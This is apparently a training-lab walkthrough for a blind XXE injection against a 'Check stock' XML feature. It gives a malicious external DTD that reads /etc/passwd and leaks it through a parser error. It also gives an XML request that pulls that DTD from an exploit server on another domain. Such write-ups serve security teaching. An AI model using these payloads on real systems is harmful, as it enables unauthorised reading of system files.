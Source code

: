 # Exploiting blind XXE to retrieve data via error messages

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

## The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

### step1

copy the line below to exploit url

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

save and click on exploite

note down exploit url
https://exploit-0a3c000704fe7e1fc75652b1019d0014.exploit-server.net/exploit

step2
copy to xml file
https://exploit-0a3c000704fe7e1fc75652b1019d0014.exploit-server.net/exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a3c000704fe7e1fc75652b1019d0014.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

send request
